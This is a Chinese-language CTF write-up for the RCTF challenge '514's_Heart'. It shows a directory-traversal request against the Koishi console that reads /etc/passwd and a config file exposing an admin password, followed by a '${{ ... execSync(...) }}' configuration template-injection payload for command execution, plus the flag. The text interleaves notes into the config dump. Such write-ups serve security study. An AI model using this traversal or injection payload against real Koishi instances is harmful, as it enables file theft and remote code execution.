


# 514's_Heart

## 题目简述

Koishi 控制台相关插件暴露了静态文件读取路径，目录穿越可读到运行配置。解法先读取配置拿到后台密码，再利用 Koishi 配置过滤器的模板表达式执行命令，把 `/readflag` 输出写到可访问文件。

## 解题过程

### 关键观察

Koishi 控制台相关插件暴露了静态文件读取路径，目录穿越可读到运行配置。

### 求解步骤

https://github.com/koishijs/webui/blob/main/plugins/console/src/node/index.ts
能任意文件读了
这个是低权限用户，读不了flag
读配置文件，拿到密码，要后台找个接口rce了
GET /@plugin-77dvs1bw9wb/../../../../../../../etc/passwd HTTP/1.1
Host: 127.0.0.1:5140
sec-ch-ua: "Not=A?Brand";v="24", "Chromium";v="140"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,im
age/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
plugins:
  group:server:
    server:yrt4za:
      port: 5140
      maxPort: 5149
      host: 0.0.0.0
    ~server-satori:4a5c8c: {}
    ~server-temp:in16cp: {}
  group:basic:
    ~admin:tnisa7: {}
    ~bind:07uqcj: {}
    commands:fcfz9r: {}
    help:tj2694: {}
    http:c3980a: {}
    ~inspect:bep4w8: {}
    locales:10cpca: {}
    proxy-agent:9hjj24: {}
    rate-limit:9enlml: {}
    telemetry:c46z2c: {}
  group:console:
    actions:12nvqa: {}
    analytics:j8afpj: {}
    android:bo77l9:
      $if: env.KOISHI_AGENT?.includes('Android')
    auth:hfi7d9:
      admin:
        hint: >-
          as you can see, you now get the password of admin, try to rce
without
          adding any plugins! gogogo! (The container network has been
          restricted. Please do not attempt any supply chain attacks. Let’s
work
          together to maintain the security of the Koishi community.)
        password: rctf2025gogogotorce
    config:ab6k8s: {}
    console:n2unsp:
      open: false
    dataview:b4re4p: {}
    desktop:zvr0sy:
      $if: env.KOISHI_AGENT?.includes('Desktop')
    explorer:e6ctyv: {}
    logger:6t5evk: {}
    insight:blbpmd: {}
    market:734ssq:
      search:
        endpoint: <https://registry.koishi.chat/index.json>
    notifier:fjhc7z: {}
    oobe:pblvay: {}
    sandbox:a8395u: {}
    status:mgd9ai: {}
    theme-vanilla:zw7dvu: {}
  group:storage:
    ~database-mongo:e4iopx:
      database: koishi
    ~database-mysql:sqfsc4:
      database: koishi
    ~database-postgres:yixoph:
      database: koishi
    database-sqlite:l9px0e:
      path: data/koishi.db
    assets-local:9psdxd: {}
  group:adapter:
    ~adapter-dingtalk:nt9ml6: {}
    ~adapter-discord:cm64td:
https://koishi.chat/zh-CN/guide/develop/config.html#使用环境变量
https://github.com/koishijs/koishi/blob/cbc18a1d1a240ab96704dc04bcb30ad080e25a96/pack
ages/loader/src/shared.ts#L325
过滤器模版注入,然后外带信息就好了
      token: null
    ~adapter-kook:x2laqr: {}
    ~adapter-lark:93xiqh: {}
    ~adapter-line:zwdbcy: {}
    ~adapter-mail:1yn601: {}
    ~adapter-matrix:ptr0p2: {}
    ~adapter-qq:zte6li: {}
    ~adapter-satori:wqcyyw: {}
    ~adapter-slack:sfujrd: {}
    ~adapter-telegram:lffgys: {}
    ~adapter-wechat-official:k7ypgi: {}
    ~adapter-wecom:2lxd3k: {}
    ~adapter-whatsapp:k4wpu1: {}
    ~adapter-zulip:gdig38: {}
  group:develop:
    $if: env.NODE_ENV === 'development'
    hmr:s1k6y8:
      root: .
${{ process.mainModule.require('child_process').execSync('/readflag >
/koishi/flag') }}
RCTF{You_now_g0t_the_heart_0f_koishi!}

### 参考链接补充

Koishi 相关链接分别确认了任意文件读和后续 RCE 的源码依据：

- `webui/plugins/console/src/node/index.ts` 中，控制台静态路由取 `ctx.path` 后对 `@plugin-` 前缀做特殊处理：`filename = files[0] + name.slice(...)`，再 `resolve(this.root, filename)`。保护条件只检查解析后的路径是否以 `this.root` 开头，或是否包含 `node_modules`；通过插件资源路径拼接 `../` 时，可以把请求落到进程可读文件上。
- 该路由的 `sendFile()` 直接 `createReadStream(filename)` 返回文件内容，因此可先读 `/etc/passwd` 验证，再读 Koishi 配置拿后台密码/插件配置。
- Koishi loader 的 `interpolate(source)` 会递归处理字符串、数组和对象，并对字符串执行 `${{ ... }}` 表达式插值；`forkPlugin()` 把 `this.interpolate(config)` 后的配置传给插件，`isTruthyLike()` 也会把表达式包装成 `${{ expr }}` 求值。
- 官方配置文档说明 Koishi 配置支持环境变量/表达式式写法。结合后台可改配置这一点，可以把过滤器/配置字段变成模板表达式执行面，再把 `/readflag` 结果写到静态可读位置。

### PDF 图片

### PDF 外链

- <https://github.com/koishijs/webui/blob/main/plugins/console/src/node/index.ts>
- <https://koishi.chat/zh-CN/guide/develop/config.html#>
- <https://github.com/koishijs/koishi/blob/cbc18a1d1a240ab96704dc04bcb30ad080e25a96/packages/loader/src/shared.ts#L325>

## 方法总结

- 核心技巧：插件静态路由目录穿越 + Koishi 配置模板执行。
- 识别信号：插件资源路径可拼接文件系统路径，后台配置支持 `${{ ... }}` 表达式。
- 复用要点：先用任意文件读拿配置/凭据，再找无需安装插件的内置执行面。
